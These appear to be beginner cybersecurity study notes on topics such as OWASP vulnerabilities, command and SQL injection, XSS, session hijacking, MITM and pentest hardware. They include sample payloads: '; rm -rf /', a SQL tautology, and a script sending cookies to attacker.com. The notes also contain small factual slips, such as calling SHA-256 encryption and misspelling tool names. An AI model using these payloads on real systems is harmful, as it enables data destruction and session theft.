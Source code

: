 Cybersecurity Notes – Mixed Topics
1. Villan Framework
Definition: Open-source penetration testing & red-teaming framework.

Purpose: Automates post-exploitation tasks like persistence, lateral movement, and privilege escalation.

Features:

Modular plugins

Remote access & control

Payload generation

2. OWASP.in
OWASP: Open Web Application Security Project — a global nonprofit improving software security.

Website: owasp.org (India chapter: owasp.in)

Focus: Awareness, tools, and best practices for secure coding.

Famous for: OWASP Top 10 — list of most critical web application vulnerabilities.

3. Command Injection
Definition: Exploiting applications by injecting OS-level commands.

Example:

bash
Copy
Edit
; rm -rf /
Risks: Full system compromise.

Prevention:

Input validation

Parameterized functions

Least privilege execution

4. SQL Injection (SQLi)
Definition: Injecting malicious SQL queries into input fields.

Example:

sql
Copy
Edit
' OR '1'='1
Risks: Database access, data theft, modification.

Prevention:

Prepared statements

Stored procedures

Escaping user input

5. Session Hijacking
Definition: Taking over a valid user session by stealing cookies or tokens.

Methods:

Cross-Site Scripting (XSS)

Session fixation

Network sniffing

Prevention:

HTTPS everywhere

Secure cookie flags

Regenerate session IDs on login

6. Broken Access Control
Definition: Improper restriction of user access to resources.

Examples:

IDOR (Insecure Direct Object References)

Missing role checks

Prevention:

Enforce role-based access

Server-side checks (never trust client-side validation)

7. Cryptographic Failures
Definition: Improper use or absence of encryption for sensitive data.

Examples:

Storing passwords in plain text

Weak algorithms (MD5, SHA1)

Prevention:

Strong encryption (AES-256, SHA-256)

Use salts and key management

8. Man-in-the-Middle (MITM)
Definition: Attacker intercepts communication between two parties.

Techniques:

ARP spoofing

DNS spoofing

Rogue Wi-Fi AP

Prevention:

TLS/SSL encryption

VPN usage

Certificate pinning

9. QuillBot
Definition: AI-based paraphrasing & writing tool.

Use in Cybersecurity: Can be used to rewrite phishing emails or bypass plagiarism detection — making it a potential social engineering aid.

10. "Last Door" Sites (Job Portals)
Examples: Naukri.com, LinkedIn.

Risks:

Phishing via fake job postings.

Data harvesting from resumes.

Precautions:

Verify recruiters.

Avoid sharing sensitive personal data.

11. JavaScript Payload
Definition: Malicious JS code injected to exploit XSS or other client-side vulnerabilities.

Example:

javascript
Copy
Edit
<script>fetch('http://attacker.com/cookie?c='+document.cookie)</script>
Prevention:

Output encoding

Content Security Policy (CSP)

12. White Cards / SQL Dump
White Cards: Blank magnetic stripe/EMV cards used for cloning payment cards.

SQL Dump: Export of a database’s structure and data, often leaked during breaches.

13. Insecure Design
Definition: Weak security architecture from the start.

Examples:

No 2FA support

Storing sensitive data without encryption

Solution: Threat modeling & security reviews during the design phase.

14. Android 10 & 11 Names
Android 10: No dessert name (Google stopped dessert naming publicly).

Android 11: Same, internal code names exist (e.g., “Red Velvet Cake”).

15. Flipper
Flipper Zero: Portable multi-tool for pentesters.

Capabilities:

RFID/NFC cloning

Radio frequency sniffing

Infrared signal capture

16. Hack5
Company: Creates penetration testing hardware/tools.

Popular Products:

USB Rubber Ducky (keystroke injection)

WiFi Pineapple (wireless attacks)

Packet Squirrel (network sniffing)

17. Wi-Fi Adapters
Purpose in Security: Required for wireless network attacks.

Key Feature: Monitor mode & packet injection support.

Popular Chipsets: Atheros AR9271, Realtek RTL8812AU.
